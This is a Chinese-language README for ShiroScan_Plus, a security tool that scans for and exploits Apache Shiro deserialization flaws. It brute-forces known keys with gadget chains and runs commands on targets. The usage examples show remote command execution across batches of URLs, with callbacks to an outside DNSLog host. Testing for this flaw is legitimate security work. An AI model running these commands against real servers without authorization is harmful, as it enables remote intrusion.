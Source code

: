 # ShiroScanPlus
ShiroScan_Plus是基于sv3nbeast/ShiroScan改进的增强版的Shiro反序列化一键检测工具

![](data/pic.png)

## 写在前面
1. **该项目和我在公司的部分研究成果有冲突，暂时不会继续深入优化了。原计划的提取Payload 16进制形式，替换调Java的方式的优化，也暂时搁置。欢迎有能力的大佬贡献代码。**  
2. 运行环境Python3、Java 1.8, pycrypto安装有困难的朋友，可以尝试使用pycryptodome==3.9.8  

## 声明 
* 仅供安全人员验证,测试是否存在此漏洞。  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) ，勿用于非授权的测试，本人不负任何连带法律责任。**  

## 新改动内容
1. 更正requirements，优化代码规范和逻辑问题，优化代码结构。 
2. 采用两种扫描模式，fast优先检测key，但漏报率特别高。full直接发送全部key的全部利用链，资源消耗大，准确度高。  
3. 用[Koalr](https://github.com/zema1) 的利用链 CommonsCollectionsK1到K4替代CommonsCollections1到7
4. 为了Windows用户方便安装pycrypto，requirements.txt中采用了pycryptodome==3.9.8
5. 增加参数解析，增加DNSLog验证、URL文件批量处理、输出到文件等功能，多个功能可以配合使用。  
6. 移除原作者新加的30个key，移除一个重复key，保留20个key。

## 原改动内容  
1. 新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
2. 增加多线程，虽模块增加但速度却提高300%
3. 集成51个key进行fuzz  
4. 输入命令自动进行bash编码，防止未了解此漏洞的人踩坑  

## 使用方法  
**运行环境为Python3**
```
* Windows安装依赖：pip install -r requirments_windows.txt  
* Linux安装依赖：pip install -r requirments_linux.txt  
* 获取帮助：python3 shiro_rce_plus.py --help
```

```
* 使用示例     
* Example：python3 shiro_rce_plus.py --mode fast --url https://url.com --command "ping xxx.dnslog.cn"
* Example: Python3 shiro_rce_plug.py --mode full --file urls.txt --command "ping xxx.dnslog.cn"
* Example: Python3 shiro_rce_plug.py --mode fast --verify --file urls.txt --dnslog "{randstr}.mydnslog.com"  
            --check "http://check.mydnslog.com/{randstr}/"  --flag "True"  
            --output res.txt
```  

## 帮助信息
```
* python shiro_rce_plus.py --help  
 ____  _     _          ____                  ____  _           
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __ |  _ \| |_   _ ___  
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \| |_) | | | | / __| 
 ___) | | | | | | | (_) |__) | (_| (_| | | | |  __/| | |_| \__ \ 
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|_|   |_|\__,_|___/ 

                           原作者： Sv3nbeast
                           修  改： Hack3rHan

usage: shiro_rce_plus.py [-h] [--mode {fast,full}] [--url URL] [--file FILE]
                         [--command COMMAND] [--verify] [--output OUTPUT]
                         [--dnslog DNSLOG] [--flag FLAG] [--check CHECK]

optional arguments:
  -h, --help          show this help message and exit
  --mode {fast,full}  fast:快速扫描，先检测Key，准确度很差。| full:扫描全部利用链和全部Key的组合。
  --url URL           待检测单个URL。
  --file FILE         待检测URL文件，换行分割。
  --command COMMAND   要执行的命令。
  --verify            使用DNSLog验证。
  --output OUTPUT     输出到文件，文件不存在会自动创建。
  --dnslog DNSLOG     待触发的DNSlog URL，若存在{randstr}会被format。
  --flag FLAG         DNSlog检查页面包含的关键词。
  --check CHECK       检查DNSlog是否触发的URL，若存在{randstr}会被format。
```
